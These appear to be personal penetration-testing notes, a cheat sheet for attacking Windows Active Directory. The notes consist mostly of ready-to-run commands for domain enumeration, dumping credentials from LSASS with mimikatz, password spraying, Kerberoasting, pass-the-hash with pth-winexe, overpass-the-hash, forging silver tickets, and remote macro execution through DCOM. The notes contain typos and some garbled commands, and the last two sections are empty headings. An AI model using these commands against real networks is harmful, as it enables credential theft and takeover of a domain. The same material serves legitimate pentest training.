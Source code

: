 # Enumeration
- Enumerate all local accounts
```bat
net user
```
- Enumerate users in the entire domain
``` bat
net user /domain
```
- Enumerate specific domain user
```bat
net user xonork /domain
```
- Enumerate all groups in a domain
```bat
net group /domain
```
- Obtain domain
```powershell
PS : [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
``` 
- Enumerate logged-in users ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1))
```
PS C:\Tools\active_directory> Import-Module .\PowerView.ps1

PS C:\Tools\active_directory> Get-NetLoggedon -ComputerName [COMPUTER_NAME]
```
- Enumerate active sessions on the DC
```bat
PS C:\Tools\active_directory> Get-NetSession -ComputerName dc01
```

# Obtain passwords/tickets
- Hashes in LSASS memory space
  ```bat
  C:\Tools\active_directory> mimikatz.exe
  
  mimikatz # privilege::debug
  
  mimikatz # sekurlsa::logonpasswords
  ```
  If *Wdigest* is enabled, it will reveal clear text passwords
  
- Obtain Tickets
  ```bat
  mimikatz # sekurlsa::tickets
  ```
- Export tickets
  ```bat
  mimikatz # kerberos::list /export
  ```
- Slow Password Guessing
  ```bat
  # Obtain the Lockout Threshold
  net accounts
  ```
  (Spray-Passwords.ps1)[https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1]
  ```bat
  .\Spray-Passwords.ps1 -Pass Test123 -Admin
  ```
  
# Kerberoasting
It is a technique used to decrypt a Kerberos Ticket
```bash
sudo apt update && sudo apt install kerberoast

python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt exported-kerberos-list-mimikatz.kirbi
``` 
- Tools like Hashcat or John The Reapper can be also used
- **Invoke-Kerberoast.ps1** can automatically enumerate all service prinvipal names in the domain, request service tickets for them, and export them in a format ready for cracking with JTR and Hashcat.

# Lateral Movement
## Pass The Hash
- It uses an NTLM Hash
- This will not work for Kerberos authentication, only for server or service using NTLM authentication.
- Useful tools:
  - PSecec
  - (Passing-the-hash toolkit)[https://github.com/byt3bl33d3r/pth-toolkit]
  - (Impacket)[https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbclient.py]

- Using *pth-winexe* from Pass-The-Hash-Toolkit
  ```bash
  pth-winexe -U xonork%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.11 cmd
  ```
## Overpass the Hash
- We can "over" abuse a NTLM user hash to gain a full TGT or sevice ticket
  1. Log in to the Windows machine as xonork and run a process as admin1
  2. Right-click the Notepad icon and shift-right click the Notepad icon on the popup
  3. Select _Run as different user_ and enter _admin1_. This way admin1s credential will be catched on this machine.
  4. Run with mimikatz **sekurlsa::longpasswords**
  5. Transform the NTLM hash into a Kerberos ticket with **sekurlsa::pth**
    ```bat
    mimikatz # sekurlsa::pth /user:admin1 /domain:test.com /ntlm:e2b475c11da2a1748290d87aa966c327 /run:PowerShell.exe
    ```
  6. Make an interactive login in orden to cath a Kerberos ticket
    ```bat
    PS C:\Windows\system32> net use \\dc01
    ```
  7. TGT to code execution using **(PSExec.exe)[https://learn.microsoft.com/en-us/sysinternals/downloads/psexec]**
    ```bat
    PS C:\> .\PsExec.exe \\dc01 cmd.exe
    ```
## Pass the Ticket
- We can only use TGT on the machine it was created for, but the TGS potentially offers more flexibility.
- TGS may be exported and re-injected elsewhere on the network and then used to auhthenticate to a specific service.
- This attack does not provide us with any additional access, but it offers fleixbility.
- The custom- created ticket is known as a *silver ticket*. **Mimikatz** can craft a silver ticket and inject it into memory through the **kerberos::golden**.

1. Obtain the SID of our current user
  ```bat
  whoami /user
  ```
2. Generate the Silver Ticket
  ```bat
  # Purge any existing Kerberos tickets
  mimikatz # kerberos::purge
  
  # Generate the silver ticket /rc4 is the password hash of the servicve account
  rkerberos::golden /user:offsec /domain:test.com /sid:S-1-6-21-1602875587-2787523311-2599479668 /target:TestWebServer.test.com /service:HTTP    /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
```
## Distributed Component Object Model
- The Microsoft Component Object Model (COM) is a system for creating software components that interact with each other
- Interaction with DCOM is performed over RPC on port 135.
- Requieres presence of Microsoft Office

- Discover available methods
  ```ps
  $com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application","192.168.1.110"))
  $com | Get-Member
  ```
  If it containd the **Run** method it will allow us to execute a VBA macro remotely.
- Excel with macro
  1. We create an excel with the next VBA macro
    ```vba
    Sub mymacro()
      Shell ("notepad.exe")
    End Sub
    ```
  2. Execute macro
  ```ps
  $com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "192.168.1.110"))
  $LocalPath = "C:\Users\jeff_admin.corp\myexcel.xls"
  $RemotePath = "\\192.168.1.110\c$\myexcel.xls"
  [System.IO.File]::Copy($LocalPath, $RemotePath, $True)
  $Path = "\\192.168.1.110\c$\Windows\sysWOW64\config\systemprofile\Desktop"
  $temp = [system.io.directory]::createDirectory($Path)
  $Workbook = $com.Workbooks.Open("C:\myexcel.xls")
  $com.Run("mymacro")
  ```  
## Windows Management Instrumentation
## PowerShell Remoting

